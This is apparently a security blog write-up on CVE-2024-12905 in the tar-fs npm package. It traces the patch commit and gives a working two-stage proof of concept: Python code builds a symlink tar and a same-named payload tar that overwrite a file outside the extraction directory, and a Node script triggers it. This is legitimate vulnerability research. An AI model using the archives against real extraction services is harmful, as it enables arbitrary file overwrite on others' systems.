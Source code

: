 ```yaml
---
title: CVE-2024-12905 - tar-fs Vulnerability Ananlysis and PoC
date: 2025-04-18 09:00:00 +0800
categories: [Vulnerability Research, Exploit Development]
tags: [arbitrary file write, file overwrite, link following]
math: true
mermaid: true
media_subpath: /assets/posts/2025-04-18-tarFs-PoC
image:
  path: preview.png
---
```


# Vulnerability anaylsis and PoC Development for CVE-2024-12905

## Introduction     
The `tar-fs` npm package is commonly used in JavaScript projects to pack and extract `.tar` archive files. However, a critical vulnerability ([CVE-2024-12905](https://github.com/advisories/GHSA-pq67-2wwv-3xjx)) affects several versions of this package — specifically:

- Versions from 0.0.0 before 1.16.4

- Versions from 2.0.0 before 2.1.2

- Versions from 3.0.0 before 3.0.7

This vulnerability allows attackers to craft malicious `.tar` archives that can write or overwrite files outside the intended extraction directory, potentially leading to arbitrary file write attacks. This kind of flaw poses a serious risk, especially in environments that automatically extract user-provided archives.

In this blog, we’ll dive into the `tar-fs` source code and analyze the relevant Git commits before and after the patch to understand how the vulnerability works. We'll also walk through the process of crafting a proof-of-concept (PoC) exploit to demonstrate its impact.

## Vulnerability Analysis
While researching recently published vulnerabilities for a new vulnerable machine concept, I came across **CVE-2024-12905**. The description immediately piqued my interest, and I was eager to replicate the vulnerability. However, I quickly realized that no public exploit code existed for it.

Determined to explore further, I decided to dive into the patch diffs myself to uncover exactly where the vulnerability was introduced—and more importantly, how it was fixed—so I could develop a working proof of concept (PoC).

Fortunately, the researchers who discovered the vulnerability referenced a specific commit hash in the `tar-fs` repository where the issue was addressed: [mafintosh/tar-fs@a1dd7e7](https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed).

Upon reviewing this commit, I noticed a number of key additions to the code that appeared to patch the underlying issue. 

First, on line `123`, a new line was introduced to retrieve the absolute path of the current working directory. This serves as a baseline for validating file paths during extraction.

Then, on lines `221` to `223`, an important security check was added. This logic ensures that when unpacking archives, symbolic links are verified to confirm they **do not** point to locations outside the current working directory.

As shown in *Figure 1*, new lines were added to perform these validation checks. This includes a call to the `inCwd()` function, which is responsible for ensuring that resolved paths stay within the current working directory.

The actual implementation of `inCwd()` can be seen in *Figure 2*.

![Additions to the code](github_commit_and_additions.png)  
*Figure 1: Key Code Additions*

![inCwd Code Addition](inCWD_code_addition.png)  
*Figure 2: Implementation of `inCwd()`*


From these observations, we can begin to pinpoint the core of the vulnerability. In the affected versions of `tar-fs`, it is possible to unpack `.tar` archives containing symbolic links that point **outside** the current working directory. This oversight could allow attackers to write or overwrite arbitrary files on the system by leveraging specially crafted archive contents.


## Exploit Development
After identifying the vulnerability i moved on to crafting an exploit to prove ths concept. From the vulnerabilty i came to understand that we could submit archives with symbolic links and the affected version of `tar-fs` would happily unpack it. The exploitation doesn't end here as there are two stages involved in successfully obtaining a file write/overwrite.

### Stage 1: Creating a tar archive with a symbolic link embedded
In this stage, we use Python to craft a `.tar` archive that contains a symbolic link. This symbolic link is configured to point to a specific target file on the system that we intend to overwrite during extraction. 

```python
import tarfile
import os

archive_name = 'stage_1.tar'
link_name = 'normal_file' 
symlink_target = '../../../../../../../../../home/mcsam/poc' # Replace with traversed path to the file you want to overwrite

# Create symbolic link
os.symlink(symlink_target, link_name)

# Archive the symbolic link
tar = tarfile.open(archive_name, 'w')
tar.add(link_name, recursive=False)
tar.close()
```

#### Expected Structure of the stage_1.tar File
When the archive is inspected using `tar -tvf`, it should look like this:
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_1.tar 
lrwxrwxrwx mcsam/mcsam       0 2025-04-18 15:06 normal_file -> ../../../../../../../../../home/mcsam/poc
```

When `stage_1.tar` is unpacked on the target system, the symbolic link `normal_file` will be dropped in the extraction directory. This sets up the environment for the next stage, where this symlink could potentially be used to overwrite the target file it points to.

### Stage 2: Creating stage_2 tar archive 
In this stage, we create another TAR archive named `stage_2.tar`. This archive contains a regular file with the same name as the symbolic link we created in Stage 1 (e.g., `normal_file`).

The contents of this new file represent the data we intend to write into the target file on the victim system — the one the symbolic link points to.

This can also be achieved using Python.
```python
import tarfile

path_to_file_to_archive = 'poc' 
archive_name = 'stage_2.tar'

tar = tarfile.open(archive_name, 'w')
tar.add(path_to_file_to_archive, 'normal_file') # normal_file: same name as the symbolic link
tar.close()
```

#### Expected Structure of the stage_1.tar File
When the archive is inspected using `tar -tvf`, it should look like this:
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_2.tar 
-rw-rw-r-- mcsam/mcsam      19 2025-04-18 15:16 normal_file
```

#### What Happens When stage_2.tar is Unpacked
When `stage_2.tar` is unpacked by the vulnerable `tar-fs` application, it attempts to write the file `normal_file` to the file system.

However, recall that a symbolic link named `normal_file` already exists on the target (created during Stage 1). As a result, when `tar-fs` tries to write to `normal_file` in its current working directory, it will **follow the symlink** and end up overwriting the actual file it points to: `../../../../../../../../../home/mcsam/poc.`

This allows us to effectively overwrite an arbitrary file on the target system, provided the process has the necessary write permissions to that file.

## Verifying/Testing The Exploit
First, we set up our environment using `npm` and install a vulnerable version of `tar-fs`:

```
npm install tar-fs@3.0.0
```

#### Extracing Stage 1
Next, we create a simple test script named `test.js` that uses tar-fs to extract a tar archive:
```javascript
const tar = require('tar-fs')
const fs = require('fs')

// Extract stage_1.tar
fs.createReadStream('stage_1.tar').pipe(tar.extract('./output'))
```

Run the script with:
```
node test.js
```

#### Extracting stage 2
Now, we update the script to extract `stage_2.tar` instead:
```
const tar = require('tar-fs')
const fs = require('fs')

// Extract stage_2.tar
fs.createReadStream('stage_2.tar').pipe(tar.extract('./output'))
```
Run the script again and voilà — the path traversal takes effect.   
`/home/mcsam/poc` gets overwritten.

### References
- https://github.com/advisories/GHSA-pq67-2wwv-3xjx
- https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed